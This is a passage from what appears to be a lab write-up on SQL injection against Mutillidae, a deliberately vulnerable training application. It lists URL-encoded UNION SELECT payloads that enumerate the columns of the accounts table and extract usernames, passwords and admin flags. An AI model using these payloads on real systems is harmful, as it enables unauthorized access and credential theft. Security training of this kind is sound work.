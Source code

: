 OUTPUT :
![Alt text](img/21.png)
The column names of the accounts is displayed below for the following url:

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

OUTPUT :

![Alt text](img/25.png)
OUTPUT :
http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
